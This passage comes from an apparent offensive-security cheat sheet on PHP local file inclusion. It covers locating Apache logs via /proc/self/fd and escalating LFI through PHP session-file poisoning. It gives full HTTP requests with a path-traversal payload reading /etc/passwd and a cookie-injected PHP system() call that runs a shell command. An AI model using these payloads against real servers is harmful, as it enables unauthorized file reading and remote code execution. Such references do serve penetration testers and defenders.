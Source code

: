 This method is a little tricky as the proc file that contains the Apache error log information changes under /proc/self/fd/ e.g. /proc/self/fd/2, /proc/self/fd/10 etc.
Utilize [LFI-LogFileCheck.txt](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion%20-%20Path%20Traversal/Intruders/LFI-LogFileCheck.txt) with Burp Intruder, and check for the returned page sizes.

#### Control over PHP Session Values

Let's say, a vulnerable page is present with the post request

```none
POST /upload/? HTTP/1.1
Host: vulnerable.redacted.com
User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27
Content-Length: 44
Connection: close
Upgrade-Insecure-Requests: 1

login=1&user=admin&pass=admin&lang=en_us.php
```

with LFI

```none
login=1&user=admin&pass=admin&lang=../../../../../../../../../../etc/passwd
```

Now, the server store cookies

```none
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
Set-Cookie: pass=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

As we know PHP5 stores it’s session files by default under /var/lib/php5/sess_[PHPSESSID]. (If not, do check phpinfo and figure out the location of temp files) – so the above issued session “i56kgbsq9rm8ndg3qbarhsbm27” would be stored under /var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27

Now, we can write the cookie with a php command

```none
POST /upload/? HTTP/1.1
Host: vulnerable.redacted.com
User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27
Content-Length: 134
Connection: close
Upgrade-Insecure-Requests: 1

login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```
